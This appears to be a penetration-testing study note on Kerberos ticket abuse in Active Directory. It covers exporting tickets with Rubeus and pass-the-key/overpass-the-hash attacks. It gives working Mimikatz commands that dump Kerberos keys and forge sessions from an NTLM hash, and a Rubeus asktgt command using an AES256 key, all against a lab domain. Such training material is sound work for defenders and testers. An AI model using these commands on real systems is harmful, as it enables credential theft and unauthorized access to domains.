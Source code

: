 The tickets that end with `$` correspond to the computer account, which needs a ticket to interact with the Active Directory.&#x20;

eg. of a user ticket.

`[randomvalue]-username@service-domain.local.kirbi`

> if we run "sekurlsa::ekeys" it presents all hashes as des\_cbc\_md4 on some Windows 10 versions. Exported tickets (sekurlsa::tickets /export) do not work correctly due to the wrong encryption. It is possible to use these hashes to generate new tickets or use Rubeus to export tickets in base64 format.

**Rubeus - Export Tickets**

```cmd-session
Rubeus.exe dump /nowrap
```

Rubeus prints the ticket encoded in base64 format and the option /nowrap is for easier copy-paste.

### Pass the Key or OverPass the Hash

`pass-the-hash != over-pass-the-hash.` The traditional pass-the-hash technique involves reusing a hash through the NTLMv1/NTLMv2 protocol, which doesn't touch Kerberos at all. `Pass the Key` or `OverPass the Hash` **converts** a hash/key for a domain-joined user into a full `Ticket-Granting-Ticket (TGT)`.

**Mimikatz - Extract Kerberos Keys**

```cmd-session
c:\tools> mimikatz.exe
mimikatz # privilege::debug
mimikatz # sekurlsa::ekeys
```

Doing so you will get `Domain`, `Username`, `AES256_HMAC` and `RC4_HMAC` keys.

1.  **Mimikatz - Pass the Key or OverPass the Hash**

    ```cmd-session
    c:\tools> mimikatz.exe
    mimikatz # privilege::debug
    mimikatz # sekurlsa::pth /domain:inlanefreight.htb /user:plaintext /ntlm:3f74aa8f08f712f09cd5177b5c1ce50f
    ```

    This will create a new `cmd.exe` window that we can use to request access to any service we want in the context of the target user.
2.  **Rubeus - Pass the Key or OverPass the Hash**\


    ```cmd-session
    c:\tools> Rubeus.exe asktgt /domain:inlanefreight.htb /user:plaintext /aes256:b21c99fc068e3ab2ca789bccbef67de43791fd911c6e15ead25641a8fda3fe60 /nowrap
    ```

> Note: Mimikatz requires administrative rights to perform the Pass the Key/OverPass the Hash attacks, while Rubeus doesn't.


[DC01]: PS C:\Users\john\Documents> whoami
[DC01]: PS C:\Users\john\Documents> hostname
[DC01]: PS C:\Users\john\Documents>